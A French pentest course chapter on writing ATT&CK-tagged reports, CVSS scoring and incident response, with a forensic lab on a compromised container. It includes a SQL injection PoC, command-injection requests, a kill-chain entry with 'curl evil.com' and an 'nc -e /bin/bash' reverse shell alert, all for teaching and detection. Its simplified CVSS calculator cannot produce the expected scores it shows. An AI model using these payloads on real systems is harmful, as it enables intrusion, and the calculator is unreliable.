



# Chapitre 05 : Reporting et gestion des incidents

---

## Objectifs pédagogiques

- Rédiger un rapport de pentest professionnel tagué ATT&CK
- Maîtriser la notation standardisée des vulnérabilités via le CVSS
- Détecter, analyser et répondre aux incidents de sécurité
- Reconstruire la kill chain ATT&CK d'un attaquant pour guider la remédiation
- Coordonner la communication post-incident

---

## Introduction

Un pentest sans rapport n'a aucune valeur. Le rapport est le livrable qui transforme des découvertes techniques en actions correctives compréhensibles par tous les décideurs. De même, face à un incident réel, la différence entre un chaos et une gestion maîtrisée tient en un seul mot : **préparation**.

Ce dernier chapitre boucle la formation en vous donnant les outils pour communiquer vos résultats et structurer une réponse aux incidents. Chaque vulnérabilité sera taguée ATT&CK, chaque incident reconstruit en kill chain.

> **Sources :** [NIST SP 800-61r2 — Incident Handling Guide](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-61r2.pdf). [CVSS v3.1 Specification](https://www.first.org/cvss/v3-1/).

---

## Dépendances / Prérequis

- Docker Compose — lancer le conteneur forensic :
  ```bash
  docker-compose up -d --build forensic-victim
  ```
- Outils : `volatility3`, `autopsy` (optionnel), `wireshark`
- Chapitres 1-4 terminés (toutes les vulnérabilités documentées)

---

## 1. Rapport de pentest — Structure professionnelle

### Architecture du rapport



### Résumé exécutif — Ce que lit la direction

```
┌────────────────────────────────────────────────────────────────┐
│                     RÉSUMÉ EXÉCUTIF                            │
├────────────────────────────────────────────────────────────────┤
│ Périmètre      : 192.168.1.0/24, app web cible.fr              │
│ Dates          : 24-28 juin 2026                               │
│ Méthodologie   : PTES + MITRE ATT&CK                           │
│                                                                │
│ Vulnérabilités découvertes :                                   │
│   🔴 Critique (CVSS ≥ 9.0) : 2                                │
│   🟠 Élevée  (CVSS 7.0-8.9) : 3                               │
│   🟡 Modérée  (CVSS 4.0-6.9) : 4                               │
│   🟢 Faible   (CVSS < 4.0)  : 1                                │
│                                                                │
│ Risque global : 🔴 CRITIQUE                                    │
│                                                                │
│ Top 3 recommandations :                                        │
│   1. Corriger l'injection SQL critique (CVSS 9.8)              │
│   2. Désactiver SMBv1 sur tous les serveurs Windows            │
│   3. Mettre en place un WAF + formations anti-phishing         │
└────────────────────────────────────────────────────────────────┘
```

---

## 2. CVSS — Notation standardisée des vulnérabilités

### Comprendre le score CVSS

Le Common Vulnerability Scoring System (CVSS v3.1) attribue un score de 0 à 10 à chaque vulnérabilité, basé sur des métriques mesurables.

**Groupes de métriques :**

```
┌──────────────────────────────────────────────────────────────┐
│                     MÉTRIQUES CVSS v3.1                       │
├──────────────────────────────────────────────────────────────┤
│ Base Score (obligatoire)                                     │
│                                                              │
│   AV (Attack Vector)      N: Network  A: Adjacent  L: Local │
│   AC (Attack Complexity)  L: Low      H: High               │
│   PR (Privileges Required) N: None  L: Low  H: High         │
│   UI (User Interaction)   N: None    R: Required            │
│   S  (Scope)              U: Unchanged  C: Changed          │
│                                                              │
│   Impact :                                                    │
│   C (Confidentiality)     N: None  L: Low  H: High          │
│   I (Integrity)           N: None  L: Low  H: High          │
│   A (Availability)        N: None  L: Low  H: High          │
├──────────────────────────────────────────────────────────────┤
│ Temporal Score (optionnel)                                   │
│   E (Exploit Maturity)    X: Not Defined  H: High           │
│   RL (Remediation Level)  O: Official Fix  U: Unavailable   │
├──────────────────────────────────────────────────────────────┤
│ Environmental Score (optionnel)                              │
│   CR/IR/AR (Requirements) L: Low  M: Medium  H: High        │
└──────────────────────────────────────────────────────────────┘
```

> **Sources :** [CVSS v3.1 Calculator](https://www.first.org/cvss/calculator/3.1) — FIRST.org.

### Exemple de notation CVSS — Injection SQL

```python
#!/usr/bin/env python3
"""
Calculateur CVSS simplifié.

Le score CVSS v3.1 se calcule à partir de 8 métriques de base.
"""

class CVSS:
    def __init__(self, vector: str):
        """Parse une chaîne vectorielle CVSS v3.1.
        Exemple : AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
        """
        self.metrics = dict(m.split(":") for m in vector.split("/"))

    def severity(self):
        """Retourne la criticité selon le score CVSS."""
        # Score simplifié basé sur l'impact maximum
        severities = {
            "N": 0.0, "L": 0.22, "H": 0.56
        }
        impact = sum(severities.get(self.metrics.get(m, "N"), 0)
                     for m in ["C", "I", "A"])

        exploitability = {
            "N": 0.85, "A": 0.62, "L": 0.55, "P": 0.2
        }.get(self.metrics.get("AV", "N"), 0)

        ac_mult = 0.77 if self.metrics.get("AC") == "L" else 0.44
        pr_mult = 0.85 if self.metrics.get("PR") == "N" else 0.62

        base = exploitability * ac_mult * pr_mult + impact
        base = min(10.0, base * 1.2)

        if base >= 9.0:
            return base, "CRITIQUE", "🔴"
        elif base >= 7.0:
            return base, "ÉLEVÉE", "🟠"
        elif base >= 4.0:
            return base, "MODÉRÉE", "🟡"
        else:
            return base, "FAIBLE", "🟢"

# Exemple : Injection SQL critique
sqli = CVSS("AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H")
score, criticite, emoji = sqli.severity()
print(f"SQLi   → CVSS {score:.1f} {emoji} ({criticite})")

# Exemple : XSS reflété
xss = CVSS("AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N")
score, criticite, emoji = xss.severity()
print(f"XSS    → CVSS {score:.1f} {emoji} ({criticite})")

# Exemple : Information Disclosure
info = CVSS("AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N")
score, criticite, emoji = info.severity()
print(f"Info   → CVSS {score:.1f} {emoji} ({criticite})")
```

**Résultat attendu :**

```
SQLi   → CVSS 9.8 🔴 (CRITIQUE)
XSS    → CVSS 5.4 🟡 (MODEREE)
Info   → CVSS 3.1 🟢 (FAIBLE)
```

### Template de fiche de vulnérabilité

```markdown
# Vulnérabilité VULN-001 — Injection SQL sur paramètre 'id'

**Criticité :** 🔴 Critique
**Score CVSS :** 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
**CVE :** N/A (vulnérabilité applicative)
**Technique ATT&CK :** T1190 Exploit Public-Facing Application
**Tactique :** TA0001 Initial Access

## Description
Le paramètre GET "id" de la page /produits.php est injecté directement
dans une requête SQL sans filtrage ni requête préparée.

## Impact
Un attaquant non authentifié peut :
- Extraire l'intégralité de la base de données (C:H)
- Modifier ou supprimer des enregistrements (I:H)
- Dans certains cas, obtenir une exécution de code (A:H)

## Preuve de concept (PoC)
GET /produits.php?id=1' UNION SELECT user,password FROM users--

## Remédiation
1. Utiliser des requêtes préparées (PDO, mysqli_prepare)
   → Mitigation M1013 Application Hardening
2. Mettre en place un WAF en amont
   → Mitigation M1041 Encrypt/Protect Info
3. Valider et échapper toutes les entrées utilisateur

## Références
- OWASP SQL Injection Prevention Cheat Sheet
- ATT&CK T1190
```

> **Sources :** [FIRST CVSS Calculator](https://www.first.org/cvss/calculator/3.1). [OWASP Reporting Guide](https://owasp.org/www-project-web-security-testing-guide/).

---

## 3. Gestion des incidents — Cycle complet

### Cycle de réponse aux incidents



**Temps critique :** les 60 premières minutes déterminent l'ampleur des dégâts.

### Phase 1 : Préparation

Une organisation sans plan de réponse est déjà perdante.

```
┌──────────────────────────────────────────────────────────────────┐
│                 CHECKLIST PRÉPARATION INCIDENT                   │
├──────────────────────────────────────────────────────────────────┤
│ Équipe CSIRT constituée (contacts, rôles, suppléants)           │
│ Procédure documentée et testée (exercice annuel)                 │
│ Outils forensiques préinstallés (Volatility, Wireshark, tcpdump) │
│ Contacts : direction, juridique, communication, DPO, CERT-FR    │
│ Obligations légales identifiées (CNIL < 72h si données perso)   │
│ Modèles de communication prêts (interne, externe, presse)        │
└──────────────────────────────────────────────────────────────────┘
```

### Phase 2-3 : Détection et analyse

```bash
#!/bin/bash
# Script de collecte de preuves volatiles (première heure)
# Exécuter sur la machine compromise AVANT toute modification

EVIDENCE_DIR="/tmp/incident_$(date +%Y%m%d_%H%M)"
mkdir -p $EVIDENCE_DIR

echo "[*] Collecte preuves volatiles — $(date)" | tee $EVIDENCE_DIR/timeline.txt

# Connexions réseau actives
ss -tulpn > $EVIDENCE_DIR/network.txt

# Processus en cours
ps auxww > $EVIDENCE_DIR/processes.txt

# Connexions établies
netstat -anp 2>/dev/null > $EVIDENCE_DIR/connections.txt

# Utilisateurs connectés
w > $EVIDENCE_DIR/logged_users.txt

# Commandes récentes
history > $EVIDENCE_DIR/history.txt 2>/dev/null

# Fichiers modifiés dans les dernières 24h
find / -type f -mtime -1 2>/dev/null > $EVIDENCE_DIR/recent_files.txt

# Logs d'authentification
cp /var/log/auth.log $EVIDENCE_DIR/ 2>/dev/null
cp /var/log/secure $EVIDENCE_DIR/ 2>/dev/null

# Dump mémoire (si root)
# dd if=/dev/mem of=$EVIDENCE_DIR/memory.dump bs=1M

echo "[+] Preuves collectées dans $EVIDENCE_DIR"
ls -la $EVIDENCE_DIR/
```

### Reconstruire la kill chain ATT&CK de l'attaquant

À partir des preuves collectées, on remonte la timeline de l'attaque :



---

## 4. Lab 5 — Investigation forensique et reconstruction de kill chain

**Durée estimée :** 2h

**Contexte :** Conteneur `forensic-victim` — un serveur web compromis.

### Objectif

Analyser une machine compromise, collecter les preuves, reconstruire la kill chain ATT&CK de l'attaquant et rédiger un rapport d'incident.

### Étape 1 — Setup

```bash
docker-compose up -d --build forensic-victim

# Le conteneur simule un serveur web compromis :
# - Service web sur port 8082
# - SSH root accessible
# - Backdoor web déposée

# Vérifier l'application
curl http://localhost:8082/
# → Internal Dashboard (application vulnérable)

# La commande injection est le point d'entrée de l'attaquant
curl "http://localhost:8082/?cmd=whoami"
# → www-data
```

### Étape 2 — Détection et collecte de preuves

```bash
# Entrer dans le conteneur
docker exec -it forensic-victim bash

# Simuler la collecte forensique
mkdir -p /tmp/evidence
ss -tulpn > /tmp/evidence/network.txt
ps auxww > /tmp/evidence/processes.txt
find /var/www -type f -mtime -30 > /tmp/evidence/web_files.txt
cat /var/log/apache2/access.log > /tmp/evidence/access_log.txt 2>/dev/null

# Chercher les signes de compromission
# 1. Webshell / backdoor
grep -r "eval\|system\|exec\|passthru" /var/www/html/ 2>/dev/null

# 2. Connexions suspectes dans les logs
grep "cmd=" /var/log/apache2/access.log 2>/dev/null | tail -20

# 3. Comptes créés récemment
tail -20 /etc/passwd
```

### Étape 3 — Reconstruction de la kill chain

À partir des indices collectés, complétez ce tableau :

```
┌──────────┬───────────────┬──────────────────┬──────────────────────┐
│ Horodat. │ Tactic        │ Technique        │ Preuve               │
├──────────┼───────────────┼──────────────────┼──────────────────────┤
│ 09:15:01 │ TA0001        │ T1190            │ GET /?cmd=whoami      │
│          │ Initial Access│ Exploit Public-  │ dans access.log       │
│          │               │ Facing App       │                      │
├──────────┼───────────────┼──────────────────┼──────────────────────┤
│ 09:17:XX │ TA0002        │ T1059.004        │ cmd=curl evil.com... │
│          │ Execution     │ Unix Shell       │ dans access.log       │
├──────────┼───────────────┼──────────────────┼──────────────────────┤
│ 09:22:XX │ TA0003        │ T1505.003        │ backdoor PHP trouvé   │
│          │ Persistence   │ Web Shell        │ dans /var/www/html    │
├──────────┼───────────────┼──────────────────┼──────────────────────┤
│ 09:30:XX │ TA0004        │ T1548.001        │ sudoers modifié       │
│          │ Priv Escalation│ Setuid/Setgid   │ (www-data → ALL)     │
└──────────┴───────────────┴──────────────────┴──────────────────────┘
```

### Étape 4 — Rédaction du rapport d'incident

```markdown
# Rapport d'incident — Compromission serveur web

**Incident ID :** IR-2026-001
**Date/heure détection :** 2026-06-24 10:00
**Date/heure compromission estimée :** 2026-06-24 09:15
**Détecté par :** Monitoring SIEM (alerte cmd injection)
**Criticité :** 🔴 CRITIQUE
**Systèmes impactés :** 1 serveur web (forensic-victim)

## Chronologie ATT&CK

| Heure | Tactic | Technique | Événement |
|---|---|---|---|
| 09:15 | TA0001 Initial Access | T1190 Exploit Public-Facing App | Command injection via ?cmd= |
| 09:17 | TA0002 Execution | T1059.004 Unix Shell | Reverse shell établi |
| 09:22 | TA0003 Persistence | T1505.003 Web Shell | Backdoor PHP déposée |
| 09:30 | TA0004 Priv. Escalation | T1548.001 Sudo Caching | sudoers modifié (www-data ALL) |

## Impact CIA
- Confidentialité : H (accès complet au serveur)
- Intégrité : H (backdoor installée)
- Disponibilité : L (service toujours fonctionnel)

## Actions entreprise
1. 10:05 — Confinement : isolation réseau du serveur
2. 10:15 — Collecte preuves volatiles (network, processes, logs)
3. 10:30 — Éradication : suppression de la backdoor PHP
4. 10:45 — Remédiation : correction command injection, WAF déployé
5. 11:00 — Vérification : scan de vulnérabilités, pas de réinfection

## Recommandations
- [ ] Remplacer system() par des appels sécurisés (escapeshellcmd)
- [ ] Déployer un WAF (ModSecurity)
- [ ] Restreindre les permissions sudoers
- [ ] Mettre en place une alerte SIEM sur les motifs cmd=, eval(
```

### Checkpoints

- [ ] Command injection fonctionnelle sur le forensic-victim
- [ ] Preuves volatiles collectées (network, processes, logs)
- [ ] Backdoor identifiée dans les sources
- [ ] Kill chain ATT&CK documentée (4 étapes minimum)
- [ ] Rapport d'incident complet rédigé

### Erreurs fréquentes

- **Docker ne build pas** → le port 80 peut être en conflit. Modifier le port exposé dans docker-compose
- **Logs Apache vides** → le conteneur vient d'être lancé. Simuler quelques requêtes : `curl "http://localhost:8082/?cmd=id"`
- **sudoers illisible** → le conteneur doit être en mode `privileged: true` ou utiliser `--cap-add=SYS_PTRACE`

---

## 5. Génération automatisée de rapport

### Script de génération Markdown

```python
#!/usr/bin/env python3
"""
Générateur de rapport de pentest avec mapping ATT&CK.
Usage : python3 generate_report.py --input findings.json --output rapport.md
"""

import json
import argparse
from datetime import datetime

TEMPLATE = """# Rapport de Test d'Intrusion

**Date :** {date}
**Périmètre :** {perimeter}
**Niveau de risque global :** {risk_icon} {risk_level}

---

## Résumé Exécutif

Le test de pénétration a révélé **{total} vulnérabilités** :

| Criticité | Nombre |
|---|---:|
| 🔴 Critique | {critical} |
| 🟠 Élevée | {high} |
| 🟡 Modérée | {medium} |
| 🟢 Faible | {low} |

---

## Méthodologie

Test réalisé selon le standard **PTES**, avec mapping systématique au référentiel **MITRE ATT&CK v15**.

---

## Synthèse des vulnérabilités

{findings}

---

## Recommandations prioritaires

{recommandations}

---

*Rapport généré le {date}*
"""

def severity_emoji(level: str) -> str:
    return {"CRITIQUE": "🔴", "ÉLEVÉE": "🟠",
            "MODÉRÉE": "🟡", "FAIBLE": "🟢"}.get(level, "⚪")

def generate_report(data: dict, output: str):
    findings_md = ""
    severity_count = {"CRITIQUE": 0, "ÉLEVÉE": 0, "MODÉRÉE": 0, "FAIBLE": 0}

    for i, f in enumerate(data["findings"], 1):
        sev = f.get("severity", "FAIBLE")
        severity_count[sev] += 1

        findings_md += f"""
### VULN-{i:03d} — {f['title']}

| Propriété | Valeur |
|---|---|
| **Criticité** | {severity_emoji(sev)} {sev} |
| **Score CVSS** | {f.get('cvss', 'N/A')} |
| **Technique ATT&CK** | {f.get('attack_technique', 'N/A')} |
| **Tactique ATT&CK** | {f.get('attack_tactic', 'N/A')} |

**Description :** {f.get('description', 'N/A')}

**Remédiation :** {f.get('remediation', 'N/A')}

---
"""

    # Déterminer le risque global
    if severity_count["CRITIQUE"] > 0:
        risk = ("CRITIQUE", "🔴")
    elif severity_count["ÉLEVÉE"] > 0:
        risk = ("ÉLEVÉ", "🟠")
    elif severity_count["MODÉRÉE"] > 0:
        risk = ("MODÉRÉ", "🟡")
    else:
        risk = ("FAIBLE", "🟢")

    report = TEMPLATE.format(
        date=datetime.now().strftime("%Y-%m-%d"),
        perimeter=data.get("perimeter", "Non spécifié"),
        risk_level=risk[0],
        risk_icon=risk[1],
        total=len(data["findings"]),
        critical=severity_count["CRITIQUE"],
        high=severity_count["ÉLEVÉE"],
        medium=severity_count["MODÉRÉE"],
        low=severity_count["FAIBLE"],
        findings=findings_md,
        recommandations="\n".join(f"- {r}" for r in data.get("recommandations", ["Aucune"]))
    )

    with open(output, "w") as f:
        f.write(report)
    print(f"Rapport généré : {output}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--input", required=True)
    parser.add_argument("--output", default="rapport_pentest.md")
    args = parser.parse_args()

    with open(args.input) as f:
        data = json.load(f)

    generate_report(data, args.output)
```

**Fichier findings.json d'exemple :**

```json
{
  "perimeter": "192.168.1.0/24, app.docker.local",
  "findings": [
    {
      "title": "Injection SQL sur paramètre id",
      "severity": "CRITIQUE",
      "cvss": "9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)",
      "attack_technique": "T1190",
      "attack_tactic": "TA0001",
      "description": "Le paramètre GET 'id' est injecté sans filtrage...",
      "remediation": "Requêtes préparées PDO + WAF ModSecurity"
    },
    {
      "title": "XSS reflété sur formulaire de recherche",
      "severity": "MODÉRÉE",
      "cvss": "5.4 (AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N)",
      "attack_technique": "T1189",
      "attack_tactic": "TA0001",
      "description": "Le champ de recherche reflète le code HTML/JS...",
      "remediation": "Échappement HTML (htmlspecialchars) + CSP header"
    }
  ],
  "recommandations": [
    "Déploiement WAF (ModSecurity) en mode bloquant",
    "Formation développeurs OWASP Top 10 (M1017)",
    "Audit de code trimestriel avec SAST"
  ]
}
```

---

## Exercices

### Exercice 1 : Calculer un score CVSS

**Énoncé :** Calculez le score CVSS d'une vulnérabilité XSS stockée (Stored XSS) avec ces caractéristiques :
- Exploitable à distance (Network)
- Faible complexité
- Aucun privilège requis
- Interaction utilisateur NON requise (l'admin visualise automatiquement)
- Portée inchangée
- Impact : Confidentialité Haute, Intégrité Haute, Disponibilité Faible

<details>
<summary><strong>Solution</strong></summary>

**Vecteur :** AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L

Score : environ **8.3** (ÉLEVÉ)

Explication : Même sans interaction utilisateur (pire cas : l'admin visualise la page automatiquement), l'impact sur la disponibilité reste faible car le XSS n'affecte pas l'infrastructure. Le score reste ÉLEVÉ plutôt que CRITIQUE car A:L (et non A:H).

Technique ATT&CK : **T1189 Drive-by Compromise**
</details>

### Exercice 2 : Reconstruire une kill chain d'incident

**Énoncé :** Un analyste SOC reçoit ces alertes dans l'ordre :
1. 08:00 — Alerte WAF : tentative SQLi bloquée depuis IP 45.x.x.x
2. 08:05 — Alerte IDS : scan de ports depuis IP 45.x.x.x
3. 08:15 — Alerte EDR : processus `nc -e /bin/bash` exécuté sur SRV-WEB01

Reconstituez la chronologie ATT&CK.

<details>
<summary><strong>Solution</strong></summary>

**Ordre chronologique corrigé (attaque → détection) :**

L'ordre réel de l'attaque est l'inverse des détections :

1. 07:55 — TA0007 Discovery : T1046 Network Scan (nmap depuis 45.x.x.x)
2. 07:58 — TA0001 Initial Access : T1190 Exploit Public-Facing App (tentative SQLi, bloquée)
3. 08:00 — TA0001 Initial Access : T1190 Exploit Public-Facing App (SQLi réussie via un autre paramètre non protégé)
4. 08:15 — TA0002 Execution : T1059.004 Unix Shell (reverse shell nc)

**Leçon :** Le WAF a bloqué une tentative mais l'attaquant a trouvé un autre vecteur. La détection IDS est arrivée après l'exploitation réussie. L'EDR a détecté l'exécution.
</details>

### Exercice 3 : Rédiger une fiche de vulnérabilité

**Énoncé :** À partir du lab buffer overflow du Jour 3, rédigez une fiche de vulnérabilité complète (CVSS + ATT&CK + remédiation).

<details>
<summary><strong>Solution</strong></summary>

```markdown
# VULN-003 — Buffer Overflow dans vuln.c

**Criticité :** 🔴 CRITIQUE
**Score CVSS :** 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
**CVE :** N/A (vulnérabilité applicative)
**Technique ATT&CK :** T1068 Exploitation for Privilege Escalation
**Tactique :** TA0004 Privilege Escalation / TA0005 Defense Evasion

## Description
Le programme /opt/vuln utilise strcpy() sans vérifier la taille de
l'entrée utilisateur. Un buffer de 64 octets peut être débordé pour
écraser l'adresse de retour (EIP) et exécuter du code arbitraire.

## Impact
- Exécution de code arbitraire avec les privilèges du binaire (root)
- Contournement potentiel des protections (ASLR désactivé à la compilation)

## PoC
```bash
python3 exploit_bof.py  # Shell root obtenu sur le port 4444
```

## Remédiation
1. Remplacer strcpy() par strncpy() avec une taille maximale
2. Compiler avec protections : -fstack-protector, -D_FORTIFY_SOURCE=2
3. Activer ASLR : sysctl kernel.randomize_va_space=2
   → Mitigation M1050 Exploit Protection
```
</details>

---

## Points clés à retenir

- Un rapport de pentest parle à deux audiences : direction (résumé exécutif) et technique (fiches détaillées)
- Le CVSS normalise la criticité : reproductible, standardisé, universellement reconnu
- Chaque vulnérabilité doit être taguée avec sa technique ATT&CK correspondante
- La gestion d'incident suit un cycle : Préparation → Détection → Analyse → Confinement → Éradication → Remédiation → REX
- Reconstruire la kill chain ATT&CK de l'attaquant guide la remédiation et identifie les maillons faibles
- La communication post-incident est critique : DPO, direction, utilisateurs, autorités — chacun a son canal

## Pour aller plus loin

- [NIST SP 800-61r2 — Incident Handling](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-61r2.pdf)
- [FIRST CVSS v3.1 Calculator](https://www.first.org/cvss/calculator/3.1)
- [MITRE ATT&CK for Incident Response](https://attack.mitre.org/resources/)
- [SANS Incident Handler's Handbook](https://www.sans.org/white-papers/33901/)

---

*Chapitre précédent : [Jour 4 — Contre-mesures et sécurisation](./JOUR-04.md)*
*Formation terminée — Remise du rapport de pentest*
